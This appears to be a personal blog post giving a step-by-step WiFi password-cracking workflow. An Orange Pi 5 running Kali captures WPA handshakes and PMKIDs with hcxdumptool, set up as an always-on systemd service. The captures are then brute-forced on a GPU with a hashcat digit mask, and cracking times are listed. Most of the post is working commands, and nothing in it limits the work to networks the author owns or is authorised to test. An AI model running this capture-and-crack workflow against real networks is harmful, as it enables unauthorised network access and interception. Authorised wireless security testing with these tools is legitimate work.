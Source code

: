 +++
title = "Simple WiFi pentest"
date = "2023-11-16T20:36:04+04:00"
author = "gals"
authorTwitter = "" #do not include @
cover = ""
tags = ["wifi", "kali", "gentoo", "orange pi5"]
keywords = ["wifi", "kali", "gentoo", "orange pi5"]
description = "Simple WiFi pentest"
showFullContent = false
readingTime = true
hideComments = true
color = "" #color from the theme settings
+++

# Simple WiFi pentest

## Hardware
### Orange Pi 5 + TP-Link Archer T2U PLUS [RTL8821AU]
The OS is [Kali Linux](https://github.com/leeboby/kali-images). Don't forget to do `rm /boot/*cloud-arm64* && /usr/sbin/u-boot-update`  after `apt update && apt upgrade` otherwise you can't boot after reboot. In my case, the main reason for the appearance incorrect kernel is `apt install wireguard`. As you can see
```
└─# apt depends wireguard
wireguard
 |Depends: <wireguard-modules> (>= 0.0.20191219)
    linux-image-arm64
    linux-image-cloud-arm64
```
you can use it in any place with powerbank.

### Some computer with video card
In my case it's Gentoo with GeForce RTX 3070 Lite Hash Rate

## Orange PI 5

### Prepare

```bash
apt update
apt install tshark hcxdumptool hcxtools iw bettercap
```

### Exclude wlan0 from NodeManager

Update `/etc/NetworkManager/NetworkManager.conf` and restart NetworkManager

```ini
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan0
```

### Run

```bash
# Setup monitor mode
ip link set wlan0 down && iw wlan0 set monitor none && ip link set wlan0 up
# Run tool for hcxdumptool 6.3.1 (C) 2023 ZeroBeat
hcxdumptool -i wlan0 -w wlan0.pcapng
# wait
```

You can use systemd service like this

```
[Unit]
Description=WiFi scan

[Service]
Type=simple
Environment=TERM=xterm
ExecStartPre=/usr/bin/ip link set wlan0 down
ExecStartPre=/usr/sbin/iw wlan0 set monitor none
ExecStartPre=/usr/bin/ip link set wlan0 up
ExecStartPre=-/usr/bin/bash -c '/usr/bin/mv /var/log/wifi-dump/wlan0.pcapng /var/log/wifi-dump/wlan0-$(date +%%Y%%m%%d-%%H%%M%%S).pcapng'
ExecStart=bash -c 'TERM=xterm; /usr/bin/hcxdumptool -i wlan0 -w /var/log/wifi-dump/wlan0.pcapng'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```


After or during waiting
```bash
# Dump to hc22000 file format, watch into 'PMKID (best)'
hcxpcapngtool -o wlan0.hc22000 wlan0.pcapng
# Get info from wlan0.hc22000
hcxhashtool -i wlan0.hc22000 --info=stdout
```

You can run something like this `bettercap -iface wlan0 -eval 'wifi.recon on; set ticker.period 5; set ticker.commands "wifi.show"; ticker on'` at the same time for watching in real time.



## Gentoo

### Prepare

```bash
eselect repository enable pentoo
eix-sync
eix-update
emerge hcxtools
```

### Try to find something interesting

Simple ans stupid brute force with all digest from 000000000 (minimal wifi password length) to 999999999999 (like mobile phone number)

```shell
hashcat -m 22000 wlan0.hc22000 -a3 --increment -w3 \
  --increment-max 11 \
  --increment-min 8 \
  '?d?d?d?d?d?d?d?d?d?d?d'
# press s to check status
# run any time if you want get current status with the found
hashcat -m 22000 wlan0.hc22000 --show
```

**Timings:**
- 8 digits ~ 18 minutes
- 9 digits ~ 3 hours
- 10 digits ~ 1 day, 5 hours
- 11 digist ~ 12 days, 9 hours
